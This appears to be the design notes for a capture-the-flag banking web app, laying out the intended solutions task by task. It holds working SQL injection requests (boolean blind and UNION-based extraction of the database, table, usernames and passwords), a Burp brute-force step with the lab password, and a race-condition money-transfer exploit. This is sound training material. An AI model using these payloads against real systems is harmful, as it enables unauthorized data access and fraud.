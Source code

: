 ## Task flow
The description of what is expected of the user with respect to different task stages.

### Task 0: Getting the username
The user is presented with a login page with the option to check whether a given username available.
This way, the player can get an existing username by investigating the database schema.
 - **Scenario:**:
   The base query behind the endpoint is as follows: `SELECT * FROM users WHERE username = <userinput>`.
   If any records are present, API returns a POJO `{"exists": true}`, and an appropriate message is visible in the frontend.
 - **Objective:**:
   - Use SQL injection to get the username of the first user in the database.
   - Use a non-existing username with `UNION` to get to database name, schema, table name, and username.
   Reference: https://tryhackme.com/r/room/sqlinjectionlm
 - **Issues/Questions**:
   - Technically the player could the password this way as well, but we can make it looooooong and hard to guess.

#### Steps
Note that user input starts where `SELECT * FROM users where username ='` ends, so for example the first step resolves to
```sql
SELECT * FROM users WHERE username = 'nonexisting'
```
1. Enter a username that does not exist in the database, to default to a `false` response.  
```bash
GET localhost:8080/auth/exists?username=nonexisting' --
```
2. Figure out the number of columns for the `UNION` statement to work. The player keeps appending more numbers until the response is `true`.
```bash
GET localhost:8080/auth/exists?username=nonexisting' UNION SELECT '1','2','3' --
```
3. Get the database name. The player starts with the `like '%'` stub and then keeps adding subsequent letters.
When the response changes to `true`, the guess is correct, and the next letter can be targeted. 
```bash
GET localhost:8080/auth/exists?username=nonexisting' UNION SELECT '1','2','3' WHERE current_database() like 'bankdb%25' --;
```
Note that `%25` is the URL encoded version of `%`.
4. Get the table name. The player starts with the `like '%'` stub and then keeps adding subsequent letters.
When the response changes to `true`, the guess is correct, and the next letter can be targeted. 
```bash
GET localhost:8080/auth/exists?username=nonexisting' UNION SELECT '1','2','3' FROM information_schema.tables WHERE table_catalog = 'bankdb' AND table_name like 'bank_user%25' --;
```
5. Get the username. The player starts with the `like '%'` stub and then keeps adding subsequent letters.
When the response changes to `true`, the guess is correct, and the next letter can be targeted. 
```bash
GET localhost:8080/auth/exists?username=nonexisting' UNION SELECT '1','2','3' FROM bank_user WHERE username like 'user%25' --;
```
### Task 1: The login page
The user is presented with a login page and has to utilise the provided passwords text file and burp to execute a brute force attack.
 - **Scenario:** User password is simple and common and can be found in the provided passwords file.
 - **Objective:** Use burp to intercept the request and use the provided passwords file to find the correct password.
   - Username: `user`
   - Password: `dragon`
### Task 2: Listing all the users and their passwords
 - **Scenario:** A search box allows players to search for transactions by the title and concatenates the search input directly into the SQL query.
 - **Objective:** Perform an SQL injection to access unauthorized data. The user is expected to enter a query which results in the following request:
   ```bash
   GET localhost:8080/transactions/searchByTitle?title=XD' UNION SELECT '1', bu.*, '2' from bank_user bu--
   ```

### Task 3: TOCTOU exploitiation
When the user is logged in, his goal is to exploit time-of-check to time-of-use vulnerability. 
 - **Scenario:** The implementation of transfering money between accounts doesn't have any of thread synchronization methods. User can take advantage of this fact to multiply his bank bilance.
 - **Objective:** Use burp intruder to intercept request used for submitting a transaction and utilize this request in repeater module. Sending multiple requests in the same time (using parallel mode) will lead to race condition. The user's goal is to reach 1000$ on one of "user" bank accounts. 

 - **Important**: Player has to be logged in as "user" account using credentials obtained during previous part of this challenge. Player can't transfer money from any other user account to prevent scenario, in which player is registering new accounts and transfering money to "user" account until he reaches amount of money needed for getting the flag. 